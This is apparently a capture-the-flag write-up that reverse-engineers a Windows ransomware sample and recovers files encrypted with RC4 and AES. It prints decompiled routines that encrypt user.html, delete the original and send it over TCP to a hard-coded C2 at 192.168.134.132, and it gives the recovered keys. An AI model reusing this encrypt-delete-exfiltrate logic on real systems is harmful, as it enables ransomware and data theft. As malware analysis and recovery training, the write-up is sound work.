










## 1.1 Challenge Information

- **Author:** nukoneZ
- **Language:** C/C++
- **Arch:** Windows x86-64
- **Description:** A hacker launched a ransomware attack on Lisa’s machine, encrypting all critical data in her wallet. Help Lisa recover her lost files!

---

## 2.1 Reconnaissance

### 2.1.1 File

After extracting the challenge files, the following were obtained:
  **1.** Clicl_Me.exe
  **2.** RecordUser.pcapng

### 2.1.2 PE Analysis

#### 2.1.2.1 Imports



**libcrypto-3-x64.dll**: It is an OpenSSL Cryptography library. Since it is a Ransomware, it makes sense that it is being used.

```
EVP_CIPHER_CTX_free
EVP_CIPHER_CTX_new
EVP_EncryptFinal_ex
EVP_EncryptInit_ex
EVP_EncryptUpdate
EVP_aes_256_ecb
SHA256
```

 - **EVP_aes_256_ecb** AES-256 ECB encryption
 - **SHA256** password-based keys.



**WS2_32.dll**: It is the Windows library responsible for the network API based on the Windows Sockets (Winsock) standard. It provides all the TCP/IP communication, UDP, and socket handling functions used by practically any Windows application that communicates over the network. Probably for communication with the C2.

```
WSACleanup
WSAStartup
closesocket
connect
htons
inet_pton
send
socket
```



**KERNEL32.dll**:It is one of the core DLLs of Windows, responsible for providing most of the essential functions for managing processes, memory, threads, files, I/O, synchronization, and other fundamental services of the operating system.

```
DeleteCriticalSection
DeleteFileA
EnterCriticalSection
ExitProcess
FreeLibrary
GetLastError
GetProcAddress
InitializeCriticalSection
IsDebuggerPresent
LeaveCriticalSection
LoadLibraryA 
SetUnhandledExceptionFilter
Sleep
TlsGetValue
VirtualProtect
VirtualQuery
```

 - **IsDebuggerPresent** This function allows an application to determine whether it is being debugged or not, so that it can modify its behavior.

### 2.1.3 Strings



```
C:\\Users\\Huynh Quoc Ky\\Downloads\\Ransomware\\libgen.dll
gen_from_file
anonymous
get_result_bytes
Socket creation failed
192.168.134.132
Connection to server failed
Sent %s (%ld bytes) to server\n
C:\\ProgramData\\Important\\user.html
C:\\ProgramData\\Important\\user.html.enc
hackingisnotacrime
C:\\Users\\Huynh Quoc Ky\\Downloads\\Ransomware\\hacker
What are you doing ?
```

 - **libgen.dll** and **hacker** in the same directory indicates that it was probably compiled.
 - **user.html** encrypted to **user.html.enc**
 - IP **192.168.134.132** with connection messagess.

### 2.1.4 File PCAP



The malware used wget to download the file "anonymous" from the C2 server..



I analyzed that it also contains false records; I think they may have been added to match the style of the challenge since it involves a ransomware.

## 3.1 Static Analysis IDA

Now we will start reverse engineering to understand its behavior.

### 3.1.1 Main Function



By obtaining the C pseudocode, we get the following execution flow:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *Block; // [rsp+28h] [rbp-8h]

  _main();
  Block = (void *)sub_001860();
  if ( !Block )
    return -1;
  if ( (unsigned int)sub_001DE1(Block) || (unsigned int)sub_001FB3() )
  {
    free(Block);
    return -1;
  }
  else
  {
    free(Block);
    return 0;
  }
}
```

The program's entry point coordinates the entire execution through a simple yet critical pipeline. After the initial call to _main() — a typical setup routine used for internal initializations — the program attempts to obtain a crucial data block via sub_001860(). This block serves as a working structure for the subsequent steps; if its creation fails, the process is immediately aborted with a return of -1.

With the valid block, the program proceeds to two main operations:

- **sub_001DE1(Block)**, which uses the newly created buffer and probably implements the main functional logic (processing, transformation, or validation of the data contained in the block).

- **sub_001FB3()**, an auxiliary routine independent of the block, possibly responsible for environmental checks, external communication, or final steps of the flow.

Now, let's analyze each of the functions.

### 3.1.2 sub_001860()
```c
void *sub_001860()
{
  void *v1; // [rsp+28h] [rbp-58h]
  void *Buffer; // [rsp+30h] [rbp-50h]
  int v3; // [rsp+3Ch] [rbp-44h]
  FILE *Stream; // [rsp+40h] [rbp-40h]
  FARPROC v5; // [rsp+48h] [rbp-38h]
  FARPROC v6; // [rsp+58h] [rbp-28h]
  void *Src; // [rsp+60h] [rbp-20h]
  FARPROC ProcAddress; // [rsp+68h] [rbp-18h]
  void *Block; // [rsp+70h] [rbp-10h]
  HMODULE hLibModule; // [rsp+78h] [rbp-8h]

  hLibModule = LoadLibraryA("C:\\Users\\Huynh Quoc Ky\\Downloads\\Ransomware\\libgen.dll");
  if ( !hLibModule )
    return 0;
  Block = malloc(0x20u);
  if ( !Block )
  {
    FreeLibrary(hLibModule);
    return 0;
  }
  ProcAddress = GetProcAddress(hLibModule, "gen_from_file");
  if ( ProcAddress )
  {
    Src = (void *)((__int64 (__fastcall *)(const char *))ProcAddress)("anonymous");
    if ( Src )
    {
      memcpy(Block, Src, 0x20u);
      FreeLibrary(hLibModule);
      return Block;
    }
  }
  v6 = GetProcAddress(hLibModule, "get_result_bytes");
  if ( v6 && ((int (__fastcall *)(void *, __int64))v6)(Block, 32) > 0 )
  {
    FreeLibrary(hLibModule);
    return Block;
  }
  v5 = GetProcAddress(hLibModule, "gen");
  if ( v5 )
  {
    Stream = fopen("anonymous", "rb");
    if ( Stream )
    {
      fseek(Stream, 0, 2);
      v3 = ftell(Stream);
      rewind(Stream);
      if ( v3 > 0 )
      {
        Buffer = malloc(v3);
        if ( Buffer )
        {
          fread(Buffer, 1u, v3, Stream);
          v1 = (void *)((__int64 (__fastcall *)(void *, _QWORD))v5)(Buffer, v3);
          if ( v1 )
          {
            memcpy(Block, v1, 0x20u);
            free(Buffer);
            fclose(Stream);
            FreeLibrary(hLibModule);
            return Block;
          }
          free(Buffer);
        }
      }
      fclose(Stream);
    }
  }
  free(Block);
  FreeLibrary(hLibModule);
  return 0;
}
```

The function sub_001860() implements an initialization routine that tries to obtain a 32-byte block from different mechanisms exposed by an external DLL (libgen.dll). It follows a fallback chain, using three possible functions exported by the DLL:

- gen_from_file
- get_result_bytes
- gen

If any of these strategies produce a valid result, the function copies the 32 bytes to a dynamically allocated buffer and returns it to the caller.

### 3.1.3 sub_001DE1

```c
__int64 __fastcall sub_001DE1(int a1)
{
  FILE *v2; // [rsp+38h] [rbp-28h]
  void *Buffer; // [rsp+40h] [rbp-20h]
  void *Block; // [rsp+48h] [rbp-18h]
  int v5; // [rsp+54h] [rbp-Ch]
  FILE *Stream; // [rsp+58h] [rbp-8h]

  Stream = fopen("C:\\ProgramData\\Important\\user.html", "rb");
  if ( !Stream )
    return 0xFFFFFFFFLL;
  fseek(Stream, 0, 2);
  v5 = ftell(Stream);
  rewind(Stream);
  Block = malloc(v5);
  Buffer = malloc(v5);
  if ( Block && Buffer )
  {
    fread(Block, 1u, v5, Stream);
    fclose(Stream);
    sub_001668(a1, 32, (_DWORD)Block, (_DWORD)Buffer, v5);
    v2 = fopen("C:\\ProgramData\\Important\\user.html.enc", "wb");
    if ( v2 )
    {
      fwrite(Buffer, 1u, v5, v2);
      fclose(v2);
      sub_00183D("C:\\ProgramData\\Important\\user.html");
      free(Block);
      free(Buffer);
      sub_001AEB("C:\\ProgramData\\Important\\user.html.enc");
      return 0;
    }
    else
    {
      free(Block);
      free(Buffer);
      return 0xFFFFFFFFLL;
    }
  }
  else
  {
    fclose(Stream);
    free(Block);
    free(Buffer);
    return 0xFFFFFFFFLL;
  }
}
```

The function sub_001DE1() implements a file processing routine based on an external key buffer (the a1 argument). It operates on a fixed file located in ProgramData, carrying out three main steps: complete file reading, content transformation via sub_001668(), and writing the result to a new file with a modified extension. After that, it executes two auxiliary functions that are likely related to the handling or finalization of the original file and its replacement.

- **a1** is the 32-byte key
- **32** is the key length
- **Block** is the input plaintext data
- **Buffer** is the output ciphertext data
- **v5** is the data length

### 3.1.4 sub_000183D

```c
BOOL __fastcall sub_00183D(const CHAR *a1)
{
  return DeleteFileA(a1);
}
```

Delete the original file after encrypting it.

### sub_001AEB

```c
__int64 __fastcall sub_001AEB(const char *a1)
{
  char buf[4]; // [rsp+2Ch] [rbp-54h] BYREF
  sockaddr name; // [rsp+30h] [rbp-50h] BYREF
  WSAData WSAData; // [rsp+40h] [rbp-40h] BYREF
  SOCKET s; // [rsp+1E0h] [rbp+160h]
  void *Buffer; // [rsp+1E8h] [rbp+168h]
  int len; // [rsp+1F4h] [rbp+174h]
  FILE *Stream; // [rsp+1F8h] [rbp+178h]

  Stream = fopen(a1, "rb");
  if ( Stream )
  {
    fseek(Stream, 0, 2);
    len = ftell(Stream);
    rewind(Stream);
    Buffer = malloc(len);
    if ( Buffer )
    {
      fread(Buffer, 1u, len, Stream);
      fclose(Stream);
      WSAStartup(0x202u, &WSAData);
      s = socket(2, 1, 0);
      if ( s == -1 )
      {
        puts("Socket creation failed");
        free(Buffer);
        WSACleanup();
        return 0xFFFFFFFFLL;
      }
      else
      {
        name.sa_family = 2;
        *(_WORD *)name.sa_data = htons(0x22B8u);
        inet_pton(2, "192.168.134.132", &name.sa_data[2]);
        if ( connect(s, &name, 16) >= 0 )
        {
          buf[0] = HIBYTE(len);
          buf[1] = BYTE2(len);
          buf[2] = BYTE1(len);
          buf[3] = len;
          send(s, buf, 4, 0);
          send(s, (const char *)Buffer, len, 0);
          printf("Sent %s (%ld bytes) to server\n", a1, len);
          closesocket(s);
          WSACleanup();
          free(Buffer);
          return 0;
        }
        else
        {
          puts("Connection to server failed");
          closesocket(s);
          free(Buffer);
          WSACleanup();
          return 0xFFFFFFFFLL;
        }
      }
    }
    else
    {
      fclose(Stream);
      return 0xFFFFFFFFLL;
    }
  }
  else
  {
    printf("Error: Cannot open %s for sending\n", a1);
    return 0xFFFFFFFFLL;
  }
}
```

The function sub_001AEB() implements a data extraction and sending routine. It fully reads a file specified by a1, stores its content in memory, and establishes a TCP connection to a pre-configured address and port, first sending the file size in four bytes and then the entire content. The entire process is strictly validated: read failures, allocation issues, or socket creation and connection errors result in an error return after proper resource cleanup.

- IP 192.168.134.132 0X22b8(8888)

### 3.1.5 sub_001668

```c
__int64 __fastcall sub_001668(__int64 a1, unsigned int a2, __int64 a3, __int64 a4, __int64 a5)
{
  __int64 v6; // [rsp+0h] [rbp-80h] BYREF
  _BYTE v7[256]; // [rsp+20h] [rbp-60h] BYREF

  sub_00148C(a1, a2, &v6 + 4);
  sub_001558(v7, a3, a4, a5);
  return 0;
}
```

This function acts as a wrapper (intermediate function) that coordinates two internal data transformation routines. It receives:

- a1 → pointer to a key or derived material

- a2 → key size (32 bytes)

- a3 → pointer to the input buffer (original data)

- a4 → pointer to the output buffer (processed data)

- a5 → total data size

And then it calls two internal functions that together make up the core of the encryption operation.

### 3.1.6 sub_00148C

```c
__int64 __fastcall sub_00148C(__int64 a1, int a2, __int64 a3)
{
  int j; // [rsp+24h] [rbp-Ch]
  int i; // [rsp+28h] [rbp-8h]
  int v6; // [rsp+2Ch] [rbp-4h]

  v6 = 0;
  for ( i = 0; i <= 255; ++i )
    *(_BYTE *)(i + a3) = i;
  for ( j = 0; j <= 255; ++j )
  {
    v6 = (*(unsigned __int8 *)(j + a3) + v6 + *(unsigned __int8 *)(j % a2 + a1)) % 256;
    sub_001450(j + a3, a3 + v6);
  }
  return 0;
}
```

The function sub_00148C() implements exactly the RC4 key-scheduling algorithm (KSA), responsible for initializing and scrambling the state vector S[256] using the provided key.

This scrambled vector is then used by the PRGA (pseudo-random generator), which is probably inside sub_001558.

## 4.1 Resolution

### 4.1.1 Encrypted PCAP files

Let's recall what we saw above in the code:

- **user.html** is encrypted to user.html.enc
- **libgen.dll** encrypted as hacker.

In the analysis of network traffic captured in the PCAP file, it is possible to identify that the malware exfiltrated these two encrypted files to the C2.

Going back to Wireshark:



- **TCP STREAM 1** the first 4 bytes in hexadecimal: 00 00 0A 1C, 0x00000A1C = 2,588 bytes in decimal.
- **TCP STREAM 2** upload done this time with a larger amount of data, first 4 bytes: 00 00 42 14, 0x00004214 = 16,916 in decimal.

### 4.1.2 Extract Files

**user.html** (user.html.enc):



**libgen.dll** (hacker):



### 4.1.3 Decrypt Files

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <openssl/sha.h>
#include <openssl/aes.h>

int main() {
    const char *password = "hackingisnotacrime";
    uint8_t aes_key[32];  // SHA-256 output

    // --- Derive AES-256 key with SHA256 ---
    SHA256((const unsigned char*)password, strlen(password), aes_key);

    printf("AES Key (hex): ");
    for (int i = 0; i < 32; i++)
        printf("%02x", aes_key[i]);
    printf("\n");

    // --- Read binary file ---
    FILE *f = fopen("libgenEncrypt.bin", "rb");
    if (!f) {
        printf("Erro ao abrir libgenEncrypt.bin\n");
        return 1;
    }

    fseek(f, 0, SEEK_END);
    long size = ftell(f);
    fseek(f, 0, SEEK_SET);

    uint8_t *buffer = malloc(size);
    fread(buffer, 1, size, f);
    fclose(f);

    // Remove the first 4 bytes
    uint8_t *encrypted = buffer + 4;
    long enc_size = size - 4;

    printf("Encrypted DLL size (after header removal): %ld bytes\n", enc_size);

    // --- Prepare AES ---
    AES_KEY aes_dec_key;
    AES_set_decrypt_key(aes_key, 256, &aes_dec_key);

    // AES-ECB works in 16-byte blocks
    if (enc_size % AES_BLOCK_SIZE != 0) {
        printf("Erro: tamanho não alinhado ao bloco AES\n");
        return 1;
    }

    uint8_t *decrypted = malloc(enc_size);

    // --- Decrypt ECB ---
    for (long i = 0; i < enc_size; i += AES_BLOCK_SIZE) {
        AES_ecb_encrypt(encrypted + i, decrypted + i, &aes_dec_key, AES_DECRYPT);
    }

    // --- Result ---
    FILE *out = fopen("libgen.dll", "wb");
    fwrite(decrypted, 1, enc_size, out);
    fclose(out);

    printf("Decrypted libgen.dll saved\n");

    free(buffer);
    free(decrypted);
    return 0;
}
```

```
AES Key (hex): 14f137ab39f56d7ae16b70c987bd85b0033fd158a6f010bf926048952264f807
Encrypted DLL size (after removing header): 33854 bytes
Decrypted libgen.dll saved
```

A basic script that performs AES-256-ECB decryption of a binary file (libgenEncrypt.bin) to reconstruct the original DLL file (libgen.dll).

```c
#include <windows.h>
#include <stdio.h>

typedef void* (__cdecl *GEN_FROM_FILE)(const char*);

int main(void) {

    // Load the decrypted DLL
    HMODULE hDll = LoadLibraryA("libgen.dll");
    if (!hDll) {
        printf("[-] Erro ao carregar libgen.dll\n");
        return -1;
    }

    // Resolve gen_from_file
    GEN_FROM_FILE gen_from_file = (GEN_FROM_FILE)GetProcAddress(hDll, "gen_from_file");
    if (!gen_from_file) {
        printf("[-] Erro ao localizar função gen_from_file\n");
        return -1;
    }

    // Call gen_from_file("anonymous")
    void* result_ptr = gen_from_file("anonymous");

    if (result_ptr) {
        unsigned char rc4_key[32];

        // Copy 32 bytes from returned pointer
        memcpy(rc4_key, result_ptr, 32);

        // Print as hex
        printf("RC4 Key (hex): ");
        for (int i = 0; i < 32; i++)
            printf("%02x", rc4_key[i]);
        printf("\n");

        // Print raw bytes
        printf("RC4 Key (bytes): ");
        for (int i = 0; i < 32; i++)
            printf("%c", rc4_key[i]);
        printf("\n");

        // Save to rc4_key.bin
        FILE* f = fopen("rc4_key.bin", "wb");
        if (f) {
            fwrite(rc4_key, 1, 32, f);
            fclose(f);
            printf("[+] RC4 key salva em rc4_key.bin\n");
        } else {
            printf("[-] Erro ao salvar rc4_key.bin\n");
        }

    } else {
        printf("Failed to generate key\n");
    }

    return 0;
}
```

```
RC4 Key (hex): 72346e73306d774072455f63346e5f643335377230795f66316c33735f6e3077
RC4 Key (bytes): b'r4ns0mw@rE_c4n_d357r0y_f1l3s_n0w'
RC4 key saved to rc4_key.bin
```

This code functions as a dynamic loader designed to extract a 32-byte key from the gen_from_file function exported by the libgen.dll library. Initially, it loads the DLL at runtime using LoadLibraryA and then resolves the address of the target function via GetProcAddress. After obtaining a valid pointer, the program calls gen_from_file, passing the filename "anonymous" as an argument. The function returns a pointer to a buffer containing the key, which is copied to a local array using memcpy. The code then prints the key in hexadecimal format and saves the raw content to the file rc4_key.bin, completing the extraction process.

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

// --------------------- RC4 KSA ---------------------
void rc4_ksa(uint8_t *key, int key_len, uint8_t S[256]) {
    int j = 0;

    for (int i = 0; i < 256; i++)
        S[i] = i;

    for (int i = 0; i < 256; i++) {
        j = (j + S[i] + key[i % key_len]) % 256;
        uint8_t temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }
}

// --------------------- RC4 PRGA ---------------------
void rc4_prga(uint8_t S[256], uint8_t *data, uint8_t *output, long len) {
    int i = 0, j = 0;

    for (long n = 0; n < len; n++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;

        uint8_t temp = S[i];
        S[i] = S[j];
        S[j] = temp;

        uint8_t K = S[(S[i] + S[j]) % 256];
        output[n] = data[n] ^ K;
    }
}

// --------------------- Full RC4 ---------------------
void rc4_decrypt(uint8_t *key, int key_len, uint8_t *cipher, uint8_t *out, long len) {
    uint8_t S[256];
    rc4_ksa(key, key_len, S);
    rc4_prga(S, cipher, out, len);
}

int main() {

    // ---- Read RC4 key ----
    FILE *kf = fopen("rc4_key.bin", "rb");
    if (!kf) {
        printf("Erro ao abrir rc4_key.bin\n");
        return 1;
    }

    uint8_t rc4_key[32];
    fread(rc4_key, 1, 32, kf);
    fclose(kf);

    printf("RC4 Key: ");
    for (int i = 0; i < 32; i++)
        printf("%02x", rc4_key[i]);
    printf("\n");


    // ---- Read encrypted file ----
    FILE *ef = fopen("user.html.enc", "rb");
    if (!ef) {
        printf("Erro ao abrir user.html.enc\n");
        return 1;
    }

    fseek(ef, 0, SEEK_END);
    long total_size = ftell(ef);
    fseek(ef, 0, SEEK_SET);

    uint8_t *encrypted_data = malloc(total_size);
    fread(encrypted_data, 1, total_size, ef);
    fclose(ef);


    // ---- Handle 4-byte header ----
    long file_size = 0;
    if (total_size > 4) {
        file_size = (encrypted_data[0] << 24) |
                    (encrypted_data[1] << 16) |
                    (encrypted_data[2] << 8)  |
                    (encrypted_data[3]);

        if (file_size == total_size - 4) {
            encrypted_data += 4;
            total_size -= 4;
            printf("Removed 4-byte header, file size: %ld\n", total_size);
        }
    }


    // ---- Decrypt ----
    uint8_t *decrypted = malloc(total_size);
    rc4_decrypt(rc4_key, 32, encrypted_data, decrypted, total_size);


    // ---- Save user.html ----
    FILE *out = fopen("user.html", "wb");
    fwrite(decrypted, 1, total_size, out);
    fclose(out);

    printf("Decrypted user.html saved\n");

    return 0;
}
```

```
RC4 Key: 72346e73306d774072455f63346e5f643335377230795f66316c33735f6e3077
Removed 4-byte header, file size: 2588
Decrypted user.html saved
```

We implemented a full RC4 decryption routine applied to the file user.html.enc. It starts by loading the 32-byte key directly from the file rc4_key.bin and prints its value in hexadecimal format for verification. Next, the program reads the entire encrypted content into memory, determines the total size, and interprets the first 4 bytes as a header representing the expected size of the actual data; if this information is consistent, the header is removed and the size is adjusted. Decryption is carried out by a full RC4 implementation, consisting of the Key Scheduling Algorithm (KSA), responsible for initializing and permuting the 256-position S array, and the Pseudo-Random Generation Algorithm (PRGA), which generates the keystream and applies XOR byte by byte over the encrypted content. At the end of the process, the resulting buffer is written to disk as user.html, restoring the original file, and the program finishes by releasing the resources used.

>> By opening the user.html file in the browser, we get the challenge flag!